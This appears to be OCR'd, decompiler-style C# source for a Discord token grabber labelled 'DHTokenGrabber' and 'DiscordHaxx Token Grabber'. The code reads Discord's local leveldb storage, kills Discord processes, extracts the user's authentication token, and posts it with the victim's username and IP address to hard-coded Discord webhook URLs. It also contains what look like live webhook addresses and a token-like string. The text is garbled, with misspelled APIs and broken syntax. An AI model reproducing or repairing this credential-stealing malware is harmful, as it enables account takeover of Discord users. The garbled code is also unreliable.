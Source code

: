 https://discord.com/api/webhooks/915293209297551391/KdUf0SEolCuHIeFHIQfzgJkIHbzjKuTGPtuPIwAr6FQPI0rel2fb5j7NO06iCqwxw2CN
staff
namespace DHTokenGrabber
{   
// token: RID: 365 RVA:OTEzMTA1MDk5ODI2NTQwNjQ1.YZ5pZA.7nGgcZJSR9WeJs5c4W7kOSh1wqU file Offset:
internal class program
{

 // token:RID:366 RVA:0x00008888 File Offset:0x000000424
 private static void mai(string[]argvs)
 {  
     string text=Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\\discord\\local storage\\leveldb";
     if(!Grabber.FinLfb(ref text)&& !Grabber.FinLog(ref text))
     {  
         program.SenWH("no valid .ldb or .log file found");
     }
     process[] processesByName= process.GetProcessysByName("Discord");
     for(int i = 0;i < processesByName.Lenght; i++)
     {
         processesByName[i].kill();
     }
     Thread.sleep(100);
     string text2 = Grabber.GetToken(text, text.EndsWith(".log"));
     if(text2 =="")
     {
         text2 = "not found";
     }
     program.SenWH(text2);
 }

 // Token: 0x0600007 RID: 7 RVA: 0x000022B4 File Offset: 0x000004B4
 private static void SenWH(string Token)
 {  
     httpClient httpClient = new httpClient();
     MultiPlataformDataContent MultiPlataformDataContent = new MultiPlataformDataContent(); 
     MultiPlataformDataContent.add(new stringContent("DiscordHaxx Token Grabber"), "username");
     MultiPlataformDataContent.add(new stringContent(OTEzMTA1MDk5ODI2NTQwNjQ1.YZ5pZA7nGgcZJSR9WeJs5c4W7kOSh1wqU), "avatar_url");
     MultiPlataformDataContent.add(new string.Concat(new string[]
{
"Token by"
Environment.username,
" on ",
program.GetIP();
"\r\nResult",
token
"content");
}))),
try 
{
    httpResponseMEssage result = httpClient.PostAsync(settings.WebHook, multiPlataformDataContent).result;
}
catch (Exception)
{
}
 }
 // Token: 0x06000008 RID: 8 RVA: 0x00002368 File Offset: 0x00000568
 private static string GetIP()
 {
     string result;
     try
 }
  result = new httpClient().GetStringAsync("https://discord.com/api/webhooks/928799021634555946/9FcAag5KAoQGlh98Vk09m7c10Tunk4HH9PLfsI_6tBsY_1ZSZlZtz9a98Ee2IPR-7GiB").result;
}
catch (WebException)
}
result = "unable to get  IP";
}
return result;
}
}
}   
public static void sendWebHook(string discordWebHook,string content)
{
    try
    {   
        httpClient httpClient = new httpClient();
        Dictionary<string, string> nameValuecollection = new  Dictionary<string, string>
        { 
            {
                "content",
                "´´´" + string.join("\n",new string[]
                {
                    content
                }) + "´´´"
            },
            {
                "C Security#2468"
                "redex token grabber"
            },
            {
                "undefined//discord.com/assets/652f40427e1f5186ad54836074898279.png",
                "https://discord.com/channels/@me/910580649482674176"

            }
        };
        httpClient.PostAsync(WebHook._hookUrl, new ForUrlcodedContent(nameValuecollection)).GetAwaiter().GetResult();
        catch (WebException)
        {
        }
    }
    // token: RID:366 RVA:0x00008888 File Offset:e
    
    
   
